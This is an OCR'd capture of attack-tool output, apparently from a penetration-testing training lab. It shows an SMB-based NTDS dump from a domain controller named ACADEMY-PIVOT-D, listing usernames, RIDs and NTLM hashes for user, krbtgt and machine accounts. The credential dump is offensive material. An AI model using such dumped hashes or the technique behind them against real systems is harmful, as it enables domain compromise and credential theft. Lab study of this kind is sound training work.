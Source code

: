 SMB 172.16.10.5 445 ACADEMY-PIVOT-D Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

SMB 172.16.10.5 445 ACADEMY-PIVOT-D krbtgt:502:aad3b435b51404eeaad3b435b51404ee:29f2d55cc10d46e0fbe05f584670498e:::

SMB 172.16.10.5 445 ACADEMY-PIVOT-D vfrank:1103:aad3b435b51404eeaad3b435b51404ee:2e16a00be74fa0bf862b4256d0347e83:::

SMB 172.16.10.5 445 ACADEMY-PIVOT-D cdrake:1104:aad3b435b51404eeaad3b435b51404ee:30b2dc708d4030aff8c0f7344f5f28ea:::

SMB 172.16.10.5 445 ACADEMY-PIVOT-D The-Watcher:1105:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::

SMB 172.16.10.5 445 ACADEMY-PIVOT-D ACADEMY-PIVOT-D$:1000:aad3b435b51404eeaad3b435b51404ee:e4acb285f4d5cfe3577bf79f74ff945e:::

SMB 172.16.10.5 445 ACADEMY-PIVOT-D PIVOT-WIN10$:1106:aad3b435b51404eeaad3b435b51404ee:e231a2e5a73909b38d294a36d688df04:::

SMB 172.16.10.5 445 ACADEMY-PIVOT-D PIVOT-SRV01$:1107:aad3b435b51404eeaad3b435b51404ee:21ce18b1a025d4b0b01c0e716e99d476:::

SMB 172.16.10.5 445 ACADEMY-PIVOT-D PIVOTWIN10$:1108:aad3b435b51404eeaad3b435b51404ee:270257c51e2d5a6ce73e968306b87eb4:::

SMB 172.16.10.5 445 ACADEMY-PIVOT-D [+] Dumped 10 NTDS hashes to /home/ka